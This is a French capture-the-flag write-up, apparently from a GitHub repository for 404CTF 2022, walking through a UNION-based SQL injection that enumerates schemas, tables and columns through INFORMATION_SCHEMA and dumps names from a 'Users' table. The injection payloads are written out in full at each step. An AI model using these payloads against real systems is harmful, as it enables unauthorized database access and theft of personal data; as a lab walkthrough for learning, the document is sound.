 # Informations

Il nous est suggéré d'utiliser ici les ```UNION```. On cherche donc le nombre de champs pour l'injection et on trouve :</br></br>
![image](https://user-images.githubusercontent.com/73934639/174606807-94f0afe3-64a3-48bc-a1b1-ce02e228ed0a.png)
</br>

On cherche le nom de la base de données avec ```schema_name``` de la table ```INFORMATION_SCHEMA.SCHEMATA``` (``` UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA -- -```).
On obtient deux bases de données :</br></br>
![image](https://user-images.githubusercontent.com/73934639/174607177-ca835e49-fe54-4ac0-b8e7-bbf22fb8ba92.png)
</br>

On se concentre maintenant sur la base de données ```UnionVendeurs```. On cherche les tables qu'elle contient (``` ' UNION select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='UnionVendeurs' -- - ```):</br>
![image](https://user-images.githubusercontent.com/73934639/174607754-a71093ce-9d0f-4963-b26b-55463ca17e09.png)
</br>

La table ```Users``` semble être la plus intéressante. Mais nous ne connaissons pas le nom des colonnes (``` ' UNION select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='Users' -- - ```):</br>
![image](https://user-images.githubusercontent.com/73934639/174610013-90393f71-c3b6-4b1a-9f4b-c08cfec9af93.png)
</br>

On récupère le nom et le prénom ``` UNION select nom, prenom from Users -- -```:</br>
![image](https://user-images.githubusercontent.com/73934639/174610266-6421865e-fb7a-45ea-bc7d-c0b74ed07d90.png)

Nous pouvons passer à [la dernière étape](https://github.com/Nouman404/404CTF_2022/tree/main/Web/Le%20braquage/Rencontres).
